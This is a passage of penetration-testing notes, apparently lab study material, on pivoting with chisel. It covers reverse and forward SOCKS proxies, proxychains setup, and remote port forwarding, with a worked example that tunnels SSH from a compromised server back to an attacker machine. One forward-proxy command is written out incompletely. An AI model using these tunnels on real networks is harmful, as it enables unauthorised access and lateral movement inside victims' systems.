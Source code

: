 ```

### Reverse SOCKS proxy

This connects back from a compromised server to our attacking machine.

```
on attacking machine

./chisel server -p $listening_port --reverse &

on compromised host

./chisel client attacking_ip:listen_port R:socks &

R prefix is to start a proxy on the compromised target running the client, rather than on the attacking machine running the server (for reverse)
```
### Forward SOCKS proxy.

Rarer than reverse proxies as more likely to caught by firewalls etc.

```
On compromised host

./chisel server -p LISTENING_PORT --socks5

On attacking machine TARGET_IP:LISTENING_PORT PROXY_PORT:socks

Proxy_port is the port opened  
```

**PROXY CHAINS REMINDER** Chisel uses SOCKS5 so this needs to be edited in the proxy list
```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5  127.0.0.1 1080
```

### Remote Port Forward

A remote port forward is when we connect back from a compromised targets to create the forward.

```./chisel server -p LISTEN_PORT --reverse &``` on attacking machine

```/chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &``` on compromised target. Very similar to SSH.

An example 
IP of us 172.16.0.20
compromised server is 172.16.0.5
target port is 22 on 172.16.0.10.

```./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &``` on compromised machine 

```./chisel server -p 1337 --reverse &``` on attacking machine.

We can then access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

### Local port forward

Identical to to remote port forwarding just switched.

```